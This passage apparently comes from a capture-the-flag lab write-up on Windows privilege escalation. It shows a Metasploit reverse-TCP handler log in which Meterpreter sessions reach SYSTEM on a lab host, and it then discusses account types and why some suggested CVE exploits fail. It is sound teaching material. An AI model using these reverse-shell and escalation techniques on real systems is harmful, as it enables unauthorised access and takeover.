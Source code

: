 ```bash
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.117:4444
msf6 exploit(multi/handler) > [*] Sending stage (175174 bytes) to 10.129.1.153
msf6 exploit(multi/handler) > sessions
Active sessions
===============
 Id Name Type Information Connection
 -- ---- ---- ----------- ----------
 1 meterpreter x86/windows IIS APPPOOL\DefaultAppPool @ REMOTE 
  10.10.14.117:4444 -> 10.129.1.153:49884 (10.129.1.153)
 4 meterpreter x86/windows 10.10.14.117:4444 -> 10.129.1.153:49900 (10.129.1.153)
msf6 exploit(multi/handler) > sessions -i 4
[*] Starting interaction with 4...
meterpreter > [*] Meterpreter session 4 opened (10.10.14.117:4444 -> 
 10.129.1.153:49900) at 2021-01-06 13:15:47 +0800
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

An important thing to notice about these different approaches is that they result in becoming different things. In the case of getting the Administrator password through TeamViewer, we actually have access to the Administrator account itself. The other approaches escalate us to the LocalSystem account which is a service user account who's account token includes the SIDs of NT AUTHORITY\SYSTEM and BUILTIN\Administrators. This account does not have a password and so, although more powerful in some ways than the Administrator account, presents different challenges when using it to establish persistence and other activities.

Another important consideration is that even though winPEAS suggested CVEs that might be exploitable for this version of the operating system, all of them come with certain conditions that need to be satisfied before they are able to be exploited. CVE-2019-1130 for example suggests using a proof of concept \(https://github.com/S3cur3Th1sSh1t/SharpByeBear\) that exploits a race condition. This vulnerability is a timing problem that necessitates multiple cores on the machine and access to user programs Edge or Cortana. We don't have access to these programs in this situation. Likewise, a Metasploit module that exploits CVE-2019-1405 \(and CVE-2019-1322\) has a Metasploit module that fails to work on this machine. So just because a machine is theoretically vulnerable to a CVE because it has the correct build number doesn't mean all conditions will be present to make it exploitable.



